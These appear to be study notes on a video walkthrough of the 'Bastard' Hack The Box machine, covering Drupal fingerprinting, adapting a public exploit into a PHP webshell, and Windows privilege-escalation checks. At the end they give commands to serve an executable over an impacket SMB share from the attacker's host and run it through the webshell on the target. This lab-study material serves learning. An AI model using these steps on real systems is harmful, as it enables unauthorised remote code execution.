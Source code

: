 # Bastard
## the guy reads a lot of books & blogs
## checking github commits to see if software if updated or not
## changelog.txt to fingerprint drupal and droopescan --> the guy has knowledge of the CMS + the tool to use
## google search for exploit
## searchsploit and checking blogpost to link with google search findings

## exploit modification to include code execution and file upload to his webshell --> this guy knows php and spent some time figuring this out --> figuring out an exploit is no easy work!

## intercepting with burp and seeing requests

## url modification for exploit to work

## running powershell code from cmd
`echo iex("get-date") | powershell -nop -`

## Sherlock.ps1 Encoding problems
Sherlock.ps1 had encoding problems --> ippsec used dos2unix Sherlock.ps1 to fix it

searches for privesc on google using MS-XX reference + Proof of Concept

## Real pentest advice on using public exploite
in a real pentest, we examine public exploit code to make sure there are no backdoors ...etc.

guy could tell that the sherlock test was bullshit

he also knew the vulnerability of secondary logon needed multiple processors and couldnt' be done

*the guy knows the exploits well*

## check files for windows updates
`c:\windows\update.log`

## Executing code off SMB server
1. set up smb server from impacket
`impacket-smbserver <SHARENAME> $(pwd)`
2. execute from the webshell
`<RHOST>/shell.php?fexec=\\<LHOST>\<SHARENAME>\<EXE> <ARGS>`